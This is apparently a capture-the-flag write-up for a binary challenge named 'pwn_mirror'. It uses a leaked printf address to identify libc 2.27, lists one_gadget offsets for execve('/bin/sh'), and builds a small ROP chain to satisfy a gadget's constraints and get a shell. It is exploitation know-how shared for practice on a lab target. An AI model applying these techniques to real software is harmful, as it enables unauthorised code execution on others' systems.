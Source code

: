 ## pwn_mirror
Running a checksec : 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```
The addresses are randomized

"Talking" to the mirror gives us a memory leak
```
Do you want to talk to the mirror? (y/n)
> y
Your answer was: y
"This is a gift from the craftsman.. [0x7ffc579a04e0] [0x7f753b204470]"
Now you can talk to the mirror.
> 

```


The second one is the address of IO_printf

![io_printf](writeupfiles/io_printf.png)

Now we can identify the libc version using [libc database search](https://libc.nullbyte.cat) and we can calculate our offsets

On my computer is 2.30 on the server it was 2.27.

In order to get a shell I will use one_gadget
```
one_gadget libc6_2.27-3ubuntu1.3_amd64.so --level 1 (to get all possible gadgets)

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```
Sadly, by default the binary does not meet the conditions of any gadget.
But, I will adjust the registers using a ROPchain.
I will search for gadgets in the libc because I already have the IO_printf address.

The ropchain is as following :
```
mov RDX, RAX % RAX is already null
POP RCX % RCX becomes null by placing a \x00*8 on the stack
```
```
objdump -D -Mintel libc6_2.27-3ubuntu1.3_amd64.so
...
14148d:       48 89 c2                mov    rdx,rax
...
34da3 : pop rcx ; ret

```

Now I can use the 0xe5622 gadget and spawn a shell

![flag](writeupfiles/proof.png)
